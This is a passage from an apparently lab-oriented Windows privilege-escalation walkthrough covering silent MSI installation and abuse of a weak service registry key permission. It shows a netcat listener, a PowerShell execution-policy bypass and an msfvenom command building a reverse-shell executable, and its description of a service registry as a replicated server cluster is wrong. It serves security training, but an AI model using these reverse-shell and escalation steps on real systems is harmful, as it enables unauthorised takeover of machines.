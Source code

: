 ### Windows VM

1. Place `'setup.msi'` in `'C:\Temp'`
2. Open command prompt and type: 
```console
C:\Temp> msiexec /quiet /qn /i C:\Temp\setup.msi
```

### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">Service Registry</span>

## <span style="color:lightgreen">Methodology</span>
A service registry consists of a cluster of servers that use a replication protocol to maintain consistency. Hence if we get Full Contol permission over the registry key, we can drop our malicious executable file to gain administrator access. 

## <span style="color:lightgreen">Detection</span>

### Windows VM

1. Open powershell prompt and type: 
```powershell
C:\Temp> powershell -ep bypass
PS C:\Temp> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
![image](https://user-images.githubusercontent.com/59029171/161015556-54353fa3-1278-451d-999e-38c3cc762f75.png)

2. Notice that the output suggests that user belong to `"NT AUTHORITY\INTERACTIVE"` has `"FullContol"` permission over the registry key.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o x.exe
```
3. Copy the generated file `x.exe`, to the Windows VM.

### Windows VM
